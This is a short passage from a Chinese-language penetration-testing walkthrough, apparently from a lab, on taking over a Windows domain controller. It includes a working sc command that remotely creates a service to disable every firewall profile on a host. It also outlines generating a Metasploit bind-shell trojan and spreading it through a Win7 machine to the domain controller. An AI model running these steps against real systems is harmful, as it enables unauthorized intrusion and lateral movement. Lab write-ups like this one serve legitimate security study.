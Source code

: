 ------

# 获取域控权限

## sc服务关闭防火墙

```
sc \\WIN-ENS2VR5TR3N create unablefirewall binpath= "netsh advfirewall set allprofiles state off" sc \\WIN-ENS2VR5TR3N start unablefirewall
```

![img](assets/1695035083587-e2d087d5-ed4b-406b-abce-30e6e3f5207f.png)

------

## 生成msf木马反弹shell

Bind 类型所以设置端口就行了

![img](assets/1695035083960-3a252e05-bcd5-4421-a527-8f9c30d17f3c.png)

------

## 传输木马

system权限上传到win7，再共享到域控

![img](assets/1695035084327-67608bc8-ae6b-447f-8f94-2e87ad7420fd.png)